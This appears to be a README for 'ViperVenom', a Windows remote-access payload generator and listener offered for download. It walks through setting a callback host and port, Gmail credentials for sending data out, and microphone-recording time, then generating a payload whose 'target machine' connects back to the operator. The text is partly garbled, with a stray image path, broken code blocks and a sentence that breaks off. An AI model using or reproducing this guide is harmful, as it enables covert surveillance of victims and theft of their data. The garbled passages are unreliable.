 ```
```
Once you are done setting it up, you can recheck everything by typing "options", just like here
```
EXAMPLE:

(Generator) Windows/ViperVenom/TCP/Payload > options
HOST=10.10.1.107
PORT=443
GAMILADDR=revise7@example.com
GAMILPASS=P@$$W0RD_ON3
FILENAME=NULL.py
MICRECORDSECONDS=600
SLEEP=60
```
To generate the payload
```
(Generator) Windows/ViperVenom/TCP/Payload > generate
[*] Generating Payload
.
..
...
running build
running build_exe

...

[+] To Use This Payload Securely, Use This Unique Key to Start The Listener: b'RG3BR6Q20JRB3yclBtCEhZvQ1250f9SOGq0RWYfDoPQ='

[*] Please Keep This Unique Key in a Safe Place, You Won't Be Able to Run the Listener Without it!
[*] Done Generating Payload.
[*] Would You Like to Start Listener?
```
PLEASE store this random key somewhere safe, copy the whole line including the b letter and the quotes and paste it in a note, you'll require this key so the target machine
will connect back to do, otherwise, 

# Setting Up ViperVenom

After starting the software, to see which options are available, type "list" or "show list", the list of available options will be printed out
```
Landing/ViperVenom/ > show list

    Listeners             Description
    ---------             -----------
    1                      ViperVenom Payload Listener


    Generators            Description
    ----------            -----------
    2                      ViperVenom Payload Generator
```
To use the listener option in the list, type
```
use 1
Landing/ViperVenom/ > use 1
/ViperVenom/ > 
```
After selecting 1, to view available payloads, type
```
show payloads

/ViperVenom/ > show payloads
```

[Revise7]: https://revise7.com
[Download file]: https://github.com/Revise7/ViperVenom/archive/refs/heads/main.zip